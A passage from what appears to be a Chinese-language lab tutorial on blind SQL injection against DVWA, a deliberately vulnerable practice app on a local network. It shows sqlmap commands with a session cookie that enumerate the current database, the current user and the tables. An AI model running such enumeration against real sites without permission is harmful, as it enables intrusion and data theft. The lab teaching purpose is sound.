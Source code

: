 查看当前使用的数据库与登陆的用户：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -b --current-db --current-user
```

![show-current-db](../imgs/wm_427.png)

我们当前使用的 dvwa，所以我们选择查看 dvwa 数据库中有哪些数据表：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa --tables
```

![show-tables](../imgs/wm_428.png)
